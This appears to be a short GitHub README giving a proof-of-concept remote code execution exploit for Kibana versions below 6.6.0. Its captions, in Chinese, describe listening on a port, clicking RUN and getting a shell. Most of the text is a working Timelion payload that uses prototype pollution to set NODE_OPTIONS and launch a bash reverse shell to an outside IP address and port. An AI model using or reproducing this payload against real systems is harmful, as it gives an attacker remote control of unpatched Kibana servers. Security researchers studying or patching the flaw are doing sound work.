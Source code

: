 # kibana-RCE <6.6.0
![](./kibana1.jpg "监听端口")

POC：
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.1.27/12345 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')

![](./kibana2.jpg "点击RUN执行")

![](./kibana3.png "成功反弹shell")

